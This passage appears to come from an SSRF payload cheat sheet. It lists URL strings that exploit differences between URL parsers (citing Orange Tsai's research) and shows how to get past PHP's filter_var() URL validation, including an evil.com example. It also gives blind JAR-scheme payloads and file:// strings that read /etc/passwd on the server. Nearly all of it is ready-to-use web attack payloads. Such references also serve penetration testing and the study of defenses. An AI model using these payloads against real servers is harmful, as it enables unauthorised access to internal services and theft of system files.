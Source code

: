 [A New Era Of SSRF Exploiting URL Parser In Trending Programming Languages - Research from Orange Tsai](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)

```powershell
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```

![https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/WeakParser.png?raw=true](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/WeakParser.jpg?raw=true)

Parsing behavior by different libraries: `http://1.1.1.1 &@2.2.2.2# @3.3.3.3/`

* `urllib2` treats `1.1.1.1` as the destination
* `requests` and browsers redirect to `2.2.2.2`
* `urllib` resolves to `3.3.3.3`

### Bypass PHP filter_var() Function

In PHP 7.0.25, `filter_var()` function with the parameter `FILTER_VALIDATE_URL` allows URL such as:

* `http://test???test.com`
* `0://evil.com:80;http://google.com:80/`

```php
<?php 
 echo var_dump(filter_var("http://test???test.com", FILTER_VALIDATE_URL));
 echo var_dump(filter_var("0://evil.com;google.com", FILTER_VALIDATE_URL));
?>
```

### Bypass Using JAR Scheme

This attack technique is fully blind, you won't see the result.

```powershell
jar:scheme://domain/path!/ 
jar:http://127.0.0.1!/
jar:https://127.0.0.1!/
jar:ftp://127.0.0.1!/
```

## Exploitation via URL Scheme

### File

Allows an attacker to fetch the content of a file on the server. Transforming the SSRF into a file read.

```powershell
file:///etc/passwd
file://\/\/etc/passwd
```

